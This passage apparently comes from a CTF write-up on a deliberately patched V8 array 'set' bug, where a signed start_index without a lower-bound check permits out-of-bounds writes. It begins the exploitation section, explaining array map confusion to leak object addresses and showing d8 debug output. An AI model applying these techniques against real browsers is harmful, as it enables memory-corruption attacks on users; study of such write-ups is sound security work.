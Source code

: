 The bug is in the usage of `int32_t` values (as well as the lack of lower-bound checking) for the `start_index`, which means that we can pass negative values and write outside the bounds of the first array.

Note: the patch does a bunch of other stuff including the removal of cheesy solutions, and the binding between the above function and the actual `set` function on JS arrays (e.g. `[1.1].set([1.2], 0))`).

### Pwning it

It is here assumed that the reader has a certain knowledge of V8 object representation in memory and V8 exploitation. If not, there are lots of excellent resources (that explain the basics better than I ever could) freely available online ([such as this](https://faraz.faith/2019-12-13-starctf-oob-v8-indepth/)).

First, we need to find a way to get the address of arbitrary objects. To do so, it is possible to confuse an array. This basically means changing the `map` of an array, from example from `PACKED_ELEMENTS` (which stores its elements as pointers to memory locations) to `PACKED_DOUBLE_ELEMENTS` (which stores its `float` elements directly). In order to confuse an array, we first need to retrieve the map we want to change the array into (and the empty properties address, due to pointer compression and our ability to write 8 bytes at a time). To do so, we can use `d8` debug functions to retrieve it:

```
❯ ./d8 --allow-natives-syntax
V8 version 14.1.0 (candidate)
d8> %DebugPrint([1.1])
DebugPrint: 0x2164000c3705: [JSArray]
 - map: 0x21640004b651 <Map[16](PACKED_DOUBLE_ELEMENTS)> [FastProperties]
 - prototype: 0x21640004af99 <JSArray[0]>
 - elements: 0x2164000c36f5 <FixedDoubleArray[1]> [PACKED_DOUBLE_ELEMENTS]
 - length: 1
 - properties: 0x2164000007bd <FixedArray[0]>
 - All own properties (excluding elements): {
    0x216400000df5: [String] in ReadOnlySpace: #length: 0x216400026881 <AccessorInfo name= 0x216400000df5 <String[6]: #length>, data= 0x216400000011 <undefined>> (const accessor descriptor, attrs: [W__]), location: descriptor
 }
 - elements: 0x2164000c36f5 <FixedDoubleArray[1]> {
           0: 1.1
 }
0x21640004b651: [Map] in OldSpace
 - map: 0x216400042db1 <MetaMap (0x216400042e01 <NativeContext[301]>)>
 - type: JS_ARRAY_TYPE
 - instance size: 16
 - inobject properties: 0
 - unused property fields: 0
 - elements kind: PACKED_DOUBLE_ELEMENTS
 - enum length: invalid
 - back pointer: 0x21640004b60d <Map[16](HOLEY_SMI_ELEMENTS)>
 - prototype_validity_cell: 0x216400000acd <Cell value= [cleared]>
 - instance descriptors #1: 0x21640004b5d1 <DescriptorArray[1]>
 - transitions #1: 0x21640004b679 <TransitionArray[5]>
   Transitions #1:
     0x216400000e91 <Symbol: (elements_transition_symbol)>: (transition to HOLEY_DOUBLE_ELEMENTS) -> 0x21640004b695 <Map[16](HOLEY_DOUBLE_ELEMENTS)>
 - prototype: 0x21640004af99 <JSArray[0]>
 - constructor: 0x21640004aec1 <JSFunction Array (sfi = 0x216400195a21)>
 - dependent code: 0x2164000007cd <Other heap object (WEAK_ARRAY_LIST_TYPE)>
 - construction counter: 0

[1.1]
d8>
```
